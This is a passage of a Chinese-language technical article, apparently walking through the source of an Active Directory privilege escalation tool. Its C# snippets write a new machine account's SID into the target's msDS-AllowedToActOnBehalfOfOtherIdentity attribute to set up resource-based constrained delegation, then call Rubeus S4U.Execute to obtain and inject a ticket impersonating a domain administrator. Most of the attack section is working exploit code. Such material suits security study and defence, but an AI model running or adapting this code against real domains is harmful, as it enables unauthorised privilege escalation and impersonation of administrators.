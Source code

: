 然后通过一个查询请求，获取新添加的计算机对象的 SID 并返回，并通过 `System.DirectoryServices.Protocols.ModifyRequest` 接口将新计算机账户的 SID 添加到目标计算机账户（也就是当前计算机账户）的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性中，以设置从新机器帐户到目标计算机帐户的基于资源的约束委派，如下所示。

```c#
entry = Ldap.LocateAccount(computerName + "$", domain, domainController);
if (entry != null)
{
    try
    {
        securityIdentifier = new SecurityIdentifier(entry.Properties["objectSid"][0] as byte[], 0);
        Console.WriteLine($"[*] Sid of the new computer account: {securityIdentifier.Value}");
    }
    catch
    {
        Console.WriteLine("[-] Can not retrieve the sid");
    }
}

// ...

string nTSecurityDescriptor = "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;" + securityIdentifier + ")";
RawSecurityDescriptor rawSecurityIdentifier = new RawSecurityDescriptor(nTSecurityDescriptor);
byte[] descriptorBuffer = new byte[rawSecurityIdentifier.BinaryLength];
rawSecurityIdentifier.GetBinaryForm(descriptorBuffer, 0);

ModifyRequest modifyRequest = new ModifyRequest(TargetComputerDN, DirectoryAttributeOperation.Replace, "msDS-AllowedToActOnBehalfOfOtherIdentity", descriptorBuffer);
try
{
    ModifyResponse modifyResponse = (ModifyResponse)connection.SendRequest(modifyRequest);
    Console.WriteLine($"[*] {computerName}$ can now impersonate users on {TargetComputerDN} via S4U2Proxy");
}
catch
{
    Console.WriteLine("[-] Could not modify attribute msDS-AllowedToActOnBehalfOfOtherIdentity, check that your user has sufficient rights");
}

// ...
```

最后，调用 Rubeus 工具集提供的 `S4U.Execute()` 方法分别执行 S4U2self 和 S4U2proxy 过程，如下所示。这将代表域管理员用户申请到针对当前计算机上 HOST 服务的票据，并将其提交到内存中。

```c#
// ...

S4U.Execute(computerName, domain, computerHash, encType, targetUser, targetSPN, ptt: true, domainController: domainController);

// ...
```
